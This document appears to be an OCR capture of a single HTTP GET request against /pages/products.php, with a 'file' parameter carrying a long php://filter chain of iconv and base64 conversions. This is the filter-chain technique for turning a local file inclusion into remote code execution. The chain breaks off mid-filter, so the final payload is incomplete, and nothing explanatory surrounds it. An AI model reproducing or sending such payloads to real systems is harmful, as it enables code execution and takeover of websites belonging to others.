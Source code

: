 GET
/pages/products.php?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-e